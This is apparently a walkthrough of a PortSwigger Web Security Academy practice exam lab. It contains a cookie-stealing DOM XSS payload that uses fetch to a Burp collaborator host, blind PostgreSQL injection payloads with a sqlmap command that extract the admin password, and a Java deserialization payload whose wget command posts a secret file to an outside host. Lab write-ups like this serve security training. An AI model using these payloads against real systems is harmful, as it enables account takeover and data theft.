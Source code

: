 # Foothold

Active Scan => DOM-XSS => "-alert(1)-"

![image](https://user-images.githubusercontent.com/40497633/233626048-0866c789-cc7c-4278-ae84-721bbfa8ef41.png)

![image](https://user-images.githubusercontent.com/40497633/233626299-da46ddec-1288-49fe-a557-3380039229c0.png)
dots are blocked => first bypass to get cookie => alert(document['cookie'])


![image](https://user-images.githubusercontent.com/40497633/233626763-d3d2cd7d-1359-4f72-8ba5-f295416ce4c0.png)

Cannot exfiltrate data as dots are needed for the burp collab domain so we have to use atob to use it as base64.

Exploit:
"-eval(atob('[base64 encoded payload]'))-"

base64 payload:
fetch('https://your.burp.oastify.com?cookie='+document.cookie)
![image](https://user-images.githubusercontent.com/40497633/233627758-d03b4789-a4b6-4df0-a91e-d4fde369023a.png)

Exploit server:
<script>
    document.location="https://LAB-ID.h1-web-security-academy.net/?SearchTerm=%22-eval(atob(%27[base64 encoded payload]%27))-%22czichiz"
</script>

![image](https://user-images.githubusercontent.com/40497633/233628564-3c1729fa-30c9-41d2-9edd-89d1cbcf82a9.png)

Carlos account takeover!

![image](https://user-images.githubusercontent.com/40497633/233628748-0e921ccd-22d8-4042-a212-9b277b44de73.png)


# Privesc

Active scan on new advanced search feature only accessible with user account => PostgreSQL injection on param sort-by

PostgreSQL: PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit 

Automatic with sqlmap:

sqlmap.py -u "https://LAB-ID.h1-web-security-academy.net:443/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --cookie="_lab=48%7cMC4CFQCUigHc10K7RPnpgqQELxmnJC1XtAIVAIjxga6lfvULTXA5Pbqay2che1mf23VpCwRs7bp8k0P0WAnCIJh1MEhnSS%2b7xWrrVBgesSt08Mm7GHU6AMaFuhNMV79n6urUwKDt%2bvAmBTwIDGNzN3EcnM5lqarXKPo0JzTNR0i9BdZIvvAYXA%3d%3d; session=97xXNPN8LvO14nMh3tQLARSy47O67rgV" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36" --referer="https://0ad500100381b261800cf872003800f1.h1-web-security-academy.net/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --delay=0 --timeout=30 --retries=0 -p "sort-by" --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --current-user

sqlmap find boolean-based SQLi

manual:
Detection with time-based blind SQLi:
sort-by=DATE;SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--

![image](https://user-images.githubusercontent.com/40497633/233630036-b0f18f22-36d5-4e93-9d38-d8a63658da5e.png)


Find password lenght:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>$20$)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233630972-9d0c611e-6f37-458f-8fdc-ba2e5233c144.png)


20 cars

Find password:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,$1$,1)='$a$')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233631386-ddf5a1da-c494-4942-a58d-5c53c868aa30.png)
![image](https://user-images.githubusercontent.com/40497633/233631517-fbbc06d0-1dc7-4886-ae9f-89347e25d57f.png)
![image](https://user-images.githubusercontent.com/40497633/233631598-4bd414ff-a32f-493d-b288-bebf8050dd6c.png)

![image](https://user-images.githubusercontent.com/40497633/233632259-3a0fcab8-dced-4286-bfe1-641aeeb223b5.png)

1234567891011121314151617181920 </br>
b9v9whchew y p e w t l 1 y g v

creds admin: </br>
login: administrator </br>
password: b9v9whchewypewtl1ygv </br>

Administrator account takeover!

![image](https://user-images.githubusercontent.com/40497633/233632577-10e78dca-ac22-4393-88e2-4b3161f3841c.png)


# Data exfiltration

New feature => admin panel => delete users => list of blogs with title/author/views

checklist:

- SQLi => possible - (no interactions on admin panel so only possibility in headers)
- XXE => not possible cause no interactions on admin panel
- SSRF => possible only in headers
- OS injection => possible only on headers
- Deserial => possible + (Cookie look java serialized)
- File upload => not possible (no file upload feature)

View-source => clean 

exfiltration:

Insecure deserialization of admin-prefs cookie

H4sIAAAAAAAA%2fzWPPU7DQBCFF0RSQcMJpkOi2PTQEH4iCkcKClJEOV6Pk8HrHbO7dmKQOA4VJ%2bAI3IU7sBahm%2fn09PS9zx81Cl6dW8w1msjigjZS1%2bJ0IM9o%2bRVzS3pa1OwWnsrw9vUxDqvv7FAdZeq4xE48R5qJFFGdZs%2fY4cSiW0%2bW0bNbX2bq5D%2fz0EqkF%2fWuDvawHei1SLWHo7ih%2bi%2bxa6Iab5kc%2baiu5j04rAk4wA16KwHm4qL0qOFJWqjYWiqg7qHEVOE1JNMGPUEUKJh0VIvHDcGKcpg2jWWDw1K4R1ORPwvpcEWePC7gloORjgZ1SBDudo0VjsO7JDMI9zCzuA1JT3zaSb9PDWuHQgEAAA%3d%3d

![image](https://user-images.githubusercontent.com/40497633/233638562-a97e2955-c3f2-4d89-8475-1e01f8a00767.png)


extension Java deserialisation scanner => exploitation 

![image](https://user-images.githubusercontent.com/40497633/233633030-60e1c7bd-e027-457a-8f42-b6dabbf77025.png)


Compress using gzip + Encode using Base64 + Encode using URL encoding

Payload: CommonsCollections7 'wget https://your.burp.oastify.com --post-file=/home/carlos/secret'

![image](https://user-images.githubusercontent.com/40497633/233633752-42f9ab49-33e5-402b-ba27-992a27f24541.png)

Received request data => solution-NMN8OGrvOL0ehJ5wqoNWIGTWPwaTZZ8Z

![image](https://user-images.githubusercontent.com/40497633/233633925-7d79152e-d7c9-4f32-a3c7-8350140b6158.png)


/!\ Configure the path to the ysoserial.jar file in the extension config and use another version of ysoserial if that doesn't work.

Practical Exam Completed !

![image](https://user-images.githubusercontent.com/40497633/233634102-07d01a1c-a211-4af8-9a77-bf7a8572774e.png)

